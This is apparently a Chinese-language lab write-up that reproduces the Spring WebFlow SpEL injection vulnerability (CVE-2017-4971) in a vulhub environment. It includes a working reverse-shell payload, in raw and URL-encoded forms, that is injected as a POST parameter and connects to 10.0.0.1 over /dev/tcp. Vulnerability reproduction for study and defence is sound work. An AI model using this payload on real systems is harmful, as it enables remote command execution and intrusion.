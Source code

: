 # Spring WebFlow-远程代码执行漏洞（CVE-2017-4971）

### 0x00 前言

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

**影响版本：**

```
Spring WebFlow 2.4.0 - 2.4.4
```

**利用条件：**知道用户名和密码

### 0x01 环境搭建

这里使用vulhub漏洞靶场

![image-20230328215644173](https://s2.loli.net/2023/03/28/H2igfdONj3KlL6B.png)



账号密码在登录框左侧，可随意使用

### 0x02 复现步骤

1、访问`http://192.168.12.130:8080/hotels/booking?execution=e1s1`页面，任意填写数据后`Proceed`提交

![image-20230328220249012](https://s2.loli.net/2023/03/28/H2mXETSs91FkZwO.png)

2、点击`Confirm`，并使用burpsuite抓包

获取到POST数据包后添加参数（反弹shell的poc）

```
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub
```

将poc进行url编码

```
_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/10.0.0.1/21+0>%261")).start()=vulhub
```

![image-20230328222352877](https://s2.loli.net/2023/03/28/1cDnsOL4P6zyrRt.png)

注意：这里直接修改原始数据包就行，重放是无法生效的

![image-20230328222448000](https://s2.loli.net/2023/03/28/kfsUBNjQ3YKCer8.png)

### 0x03 修复建议

1、及时更新官方最新补丁
